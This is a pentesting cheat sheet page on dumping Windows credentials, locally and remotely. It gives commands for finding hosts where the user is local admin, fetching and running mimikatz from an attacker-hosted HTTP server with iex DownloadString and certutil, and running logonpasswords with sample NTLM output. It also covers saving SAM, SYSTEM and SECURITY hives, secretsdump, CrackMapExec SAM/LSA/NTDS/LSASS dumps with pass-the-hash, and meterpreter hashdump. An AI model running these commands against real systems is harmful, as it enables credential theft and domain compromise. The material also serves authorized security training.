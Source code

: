 # Dumping credentials

## Locally

### Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

#### Target preparation&#x20;

The primary thing to do is to look a PC where we are Local admin or have some privilege. Once we find the computer, we connect to it.

```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-Domain
Find-LocalAdminAccess # find access where we are local admin

# connect in those pc 
Enter-PSSession $LOCAL_ADMIN_SYSTEM # (ex. seclogs.research.DOMAIN.local)
```

Now, check the privilege that we have in the machine with this command:

```powershell
whoami /all
```

Then, we need to transfer the tool to dump hashes to the target machine.

{% code title="Linux -> Windows Target" %}
```bash
# into linux
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
certutil -urlcache -f http://$IP/$FILE_NAME $LOCAL_FILE_NAME
```
{% endcode %}

{% code title="Windows -> Windows Target" %}
```powershell
# Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```



## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.

### CrackMapExec



```bash
# print all module
crackmapexec smb -L
```



#### Mimikatz

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```

#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --ntds
```

#### Dump LSASS

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --lsassy

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' -M lsassy
```



### Metasploit

If we have a open meterpreter session&#x20;

```bash
msf> hashdump
```



### Impacket's secretsdump&#x20;

```bash
impacket-secretsdump DOMAIN.COM/USER:PASS@DC_IP
```





